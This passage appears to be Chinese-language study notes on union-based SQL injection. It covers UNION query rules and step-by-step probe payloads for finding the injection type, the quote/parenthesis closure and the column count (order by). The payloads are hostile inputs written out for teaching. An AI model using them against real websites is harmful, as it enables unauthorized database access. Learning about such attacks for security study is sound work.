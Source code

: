 * 使用**拼接联合方式**将2组或多组关键值**拼凑起来**进行查询

  ```
  查询语句1
  union
  查询语句2
  union
  查询语句3
  ```

#### (2). 使用

* 多条查询语句的**查询列数和数据类型必须一致**
* 字段数不够时，可以使用null或1,2,3来占位
* union关键字**默认去重**，如果使用**union all**可以包含重复项
* 前提：页面必须要**有显示位**

#### (3). 流程

##### a. 判断注入点和闭合方式

```
1. 先判断注入点类型
    1 and 1=1 -- 123	
    1 and 1=2 -- 123	=> 发生错误，则为整型，否则考虑为字符型
2. 判断闭合方式
    1' and 1=2 --+
    1" and 1=2 --+
    1) and 1=2 --+
    1') and 1=2 --+
    1") and 1=2 --+
    1")) and 1=2 --+
    1')) and 1=2 --+
    1")) and 1=2 --+
    1))) and 1=2 --+
    ...
```

##### b. 判断列数

* 使用order by 判断字段数(可结合二分法)

```
1' order by 1 -- 123
1' order by n -- 123
1' or 1=1 order by n -- 123
```

* 将多条查询语句的结果合并成一个结果集

```
查询语句1
union
查询语句2
union
查询语句3
```
